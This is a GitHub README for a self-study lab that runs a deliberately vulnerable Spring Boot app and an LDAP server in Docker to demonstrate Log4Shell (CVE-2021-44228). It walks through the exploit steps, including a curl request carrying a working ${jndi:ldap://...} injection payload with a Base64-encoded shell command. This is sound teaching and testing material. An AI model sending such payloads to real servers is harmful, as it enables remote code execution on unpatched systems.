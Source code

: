 # log4shell-docker-test

Docker Self-Study and Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).
It is meant as a newbie study into the ease of Docker, with a non-trivial example like Log4Shell.
Therefore, most of the prior art is taken from Cygenta's demo https://www.cygenta.co.uk/post/your-own-log4shell-demo for study and tweaking.


## Background of Log4Shell

Log4Shell is a major vulnerability in Log4Java 1 and 2 due to the design of very powerful JNDI "features" which belong to a more trusting era :)
In short, log4j allows JNDI commands to be embedded and parsed in log statements, and by chaining a secondary vector such as another old favourite, LDAP in this example, a Java object can be loaded from the foreign LDAP service into the target which has the vulnerable log4j JNDI module.

The Cygenta demo here demonstrates an OS-level command "touch" which creates a new blank file on the target Linux OS.
There is another https://github.com/mbechler/marshalsec that covers the LDAP-based exploit, and is POC'ed for Windows OS by https://github.com/many-fac3d-g0d/apache-tomcat-log4j
The Windows version runs "start calc.exe" which launches the Windows Calculator on the host OS (aka yours, if using localhost)

Both are very interesting and very scary at how easy it is.


## Setup and Configurations

Key dependency is `Log4j 2.14.1` (technically any version prior to 2.15.x will do)

Others are Java ecosystem platforms like `spring-boot-starter-log4j2 2.6.1` which contains the old `Log4j` and `JDK 1.8.0_181`.

Docker images:
1. denizenx/log4shell-vulnapp is *my* rebuild/refactor of https://github.com/christophetd/log4shell-vulnerable-app
2. cygenta/log4jldap is the LDAP service hosting the Exploit


## Running the Exploit

Run it:

1. Local network for target and LDAP host
docker network create log4jnetwork

2. Run target straight from Docker Hub
docker run --rm --network log4jnetwork --name vulnap -p 80:8080 denizenx/log4shell-vulnapp

3. Do a container check in /tmp BEFORE the exploit; you should see 3 temp files
docker exec vulnap ls /tmp

4. Run the LDAP service hosting the exploit
docker run --rm --network log4jnetwork --name log4jldapserver -p 1389:1389 -p 8888:8888 cygenta/log4jldap

5. Launch the HTTP Request to start the exploit
curl.exe 127.0.0.1:80 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw==}'

6. Do the container check in /tmp AFTER the exploit; you should see the CYGENTA addition
docker exec vulnap ls /tmp


## Build it yourself (you don't need any Java-related tooling):

git clone this. The meat is in the Java source, and this README.
Also, the Dockerfile only builds the target, and is a generic rip of the spring boot Dockerfile.

The MainController.java is the Web request processor, and that innocuous line *logger.info("....")* is what kicks off the internal aspect of the attack.


## Self-study Observations and Way Forward

For the Docker self-study, I only recreated the vulnerable application, as it is sufficient for now to illustrate quite a bit of Docker (a different level of "Hello World!" heh)

Learning points:
- Docker: curious why the demo fails if log4jnetwork is not used, even though both are attached to the default Docket subnet (is it like an Access Point isolation for routers)
- Spring Boot: is very impressive for developers, but Docker-Compose is better for putting services together.
- Tomcat: is a b*tch* and modding its official images are a trip to Hell: I tried to put log4j into a few and ultimately wasted time on CLASSPATHing Docker *and* Tomcat
- Exploits: are scary. After this exercise I have first-hand experience on only just Log4Shell... omg
- Exploits: I'm curious why the use of X-Api-Version, or "XML Configuration File Path" in the Windows demo work, but not when I try "User-Agent"?
- Windows Subsystem for Linux: this tripped me up a while testing the original demo. "curl" in Powershell is a bad imitation of "curl.exe" from WSL


## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/
https://www.cygenta.co.uk/post/your-own-log4shell-demo


## Thanks to their projects

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
